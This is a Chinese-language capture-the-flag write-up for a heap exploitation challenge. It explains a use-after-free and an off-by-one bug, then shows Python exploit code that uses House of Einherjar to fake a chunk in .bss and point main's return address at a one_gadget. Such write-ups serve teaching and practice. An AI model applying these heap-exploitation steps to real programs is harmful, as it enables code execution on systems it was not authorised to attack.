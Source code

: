 ida64打开

程序比较复杂，就不贴伪代码了，可以自行下载elf文件反编译

程序运行流程：

1、add 申请chunk并写入内容，在(`.bss`+0x100)处按顺序保存每一chunk的大小和地址，最多只能创建四个

2、delete 在free之后把size置0

3、edit 将内容写到(`.bss`+0x20)的位置,再用strcpy将内容复制到相应chunk

4、quit 结束程序

漏洞点：

1、在free之后没有将指针清零，存在UAF漏洞

2、自定义的read函数存在off by one 漏洞



所以大致思路是 先通过UAF泄露heap地址和libc地址，再通过House Of Einherjar在(`.bss`+0x40)处伪造fake_chunk，即可复写 保存所有chunk的大小和地址 的数组（因为该数组在`.bss`+0x40不远处），然后填充原本chunk1的位置为environ的地址，泄露计算出main_ret_addr，让chunk1指向main_ret_addr，将`main`函数的返回值地址修改为`one_gadget`地址



重点看一下House Of Einherjar这段漏洞利用代码

（由于程序index从1开始 本文index也从1开始）

```
add(0x18,"d"*0x18)
add(0xf0,"e"*0xf0)
add(0xf0,'f'*0xf8)
add(0x100,"f"*0xf8)

fake_addr=0x602040+0x20
size=heap_base-fake_addr+0x20
print hex(size)
payload="b"*0x20+p64(0x11111111)+p64(0xf1)+p64(fake_addr)*2
edit(3,payload)

for i in range(len(p64(size))-len(p64(size).strip('\x00'))+1):
    edit(1,'a'*0x10+p64(size).strip('\x00').rjust(8-i,'f'))
#edit(1,'a'*0x10+p64(size))
#gdb.attach(p)
delete(2)
p.recvuntil("\nDeleted.")
payload="a"*0x20+p64(0)+p64(0x111)+p64(main_arena)+p64(main_arena)
edit(4,payload)
```



1、`payload="b"*0x20+p64(0x11111111)+p64(0xf1)+p64(fake_addr)*2`处构造fake_chunk，让fd和bk都指向fake_chunk绕过unlink的检验

2、在`edit(3,payload)`处将fake_chunk写入内存中，但是由于程序先将edit的内容写到`bss+0x20`处，再使用strcpy函数时被`\x00`截断，fake_chunk并没有被写入chunk3中，所以实际是在(`.bss`+0x40)处构造fake_chunk
